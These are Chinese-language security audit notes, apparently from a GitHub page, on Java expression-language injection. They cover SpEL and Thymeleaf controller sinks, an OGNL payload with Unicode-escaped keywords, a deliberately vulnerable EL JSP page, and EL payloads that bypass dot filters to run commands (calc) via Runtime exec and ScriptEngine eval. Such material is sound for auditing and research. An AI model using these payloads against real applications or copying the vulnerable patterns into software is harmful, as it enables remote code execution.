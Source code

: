 - 类实例化
- 反序列化
- 反射
- 模板引擎
- 表达式语言
- bean-validation
  - sink -> javax.validation.ConstraintValidatorContext.buildConstraintViolationWithTemplate()


---

#### spel 

controller 层审计, 关注两点
- URL路径可控
- return内容可控


```text
@RequestMapping("/hello")
public class HelloController {
  @RequestMapping("/whoami/{name}/{sex}")
  public String hello(@PathVariable("name") String name,
@PathVariable("sex") String sex){
    return "Hello" + name + sex;
  }
}
```

```text
@PostMapping("/getNames")
public String getCacheNames(String fragment, ModelMap mmap)
{
  mmap.put("cacheNames", cacheService.getCacheNames());
  return prefix + "/cache::" + fragment;
}
```

- https://github.com/Kyo-w/Spel-research







#### ognl 支持 unicode 编码
```
# new 关键字 Unicode编码后得到 \u006e\u0065\u0077
(\u006e\u0065\u0077 java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).start()
```




#### el过滤dot的利用姿势

![](./img/1682184627333.png)



el.jsp

```jsp
<%@ page import="org.apache.jasper.runtime.PageContextImpl" %>  
  
<%  
  String res = (String) PageContextImpl.proprietaryEvaluate(request.getParameter("code"), String.class, pageContext, null);  
  out.print(res);  
%>
```


payload

```
${Runtime['getRuntime']()['exec']("calc")}
```


```
${''['getClass']()['forName']('javax.script.ScriptEngineManager')['newInstance']()['getEngineByName']('js')['eval']("eval code")}
```


